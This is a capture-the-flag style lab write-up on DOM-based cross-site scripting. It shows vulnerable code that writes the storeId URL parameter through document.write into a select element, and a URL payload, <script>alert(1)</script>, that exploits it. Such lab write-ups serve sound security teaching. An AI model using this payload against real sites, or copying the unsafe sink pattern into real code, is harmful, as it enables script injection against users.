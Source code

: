 # DOM XSS in document.write sink using source location.search inside a select element

> ************************Instructions************************
> 
> 
> This lab contains a [DOM-based cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md) vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.
> 
> To solve this lab, perform a [cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Cross-site%20scripting%20(XSS).md) attack that breaks out of the select element and calls the `alert` function.
> 

Access the Home page:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled.png)

Click ************View details************ from any product → Scroll down to the end of page and click **********************Check stock**********************

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%201.png)

Inspect the page and observe that the application is using this script to handle the data:

```html
<form id="stockCheckForm" action="/product/stock" method="POST">
	<input required type="hidden" name="productId" value="2">
	<script>
		var stores = ["London","Paris","Milan"];
		var store = (new URLSearchParams(window.location.search)).get('storeId');
		document.write('<select name="storeId">');
		if(store) {
		document.write('<option selected>'+store+'</option>');
		}
		for(var i=0;i<stores.length;i++) {
			if(stores[i] === store) {
				continue;
			}
			document.write('<option>'+stores[i]+'</option>');
		}
		document.write('</select>');
	</script>
	<button type="submit" class="button">Check stock</button>
</form>
```

Open ******************************Developer Tools****************************** > Tab **************Console**************:

```jsx
> window.location.search
<- '?productId=2'
```

The URL:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2
```

The script above extract the `storeId` parameter from the URL (`location.search`). It then create a new option in the `select` statement for the stock using `document.write`

For testing this, click on the URL → append the `storeId` parameter at the end:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2&storeId=thisisDOM-bassedXSS
```

Verify that the new `storeId` value has been added into the `select` menu:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%202.png)

To exploit this parameter (and also the ********************JavaScript********************), replace the value of the `storeId` parameter to a `script` element which calls the `alert()` function:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2&storeId=<script>alert(1)</script>
```

When you press `Enter`, the application would parse the value `<script>alert(1)</script>` into the `document.write` sink and then execute the `script` element:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%203.png)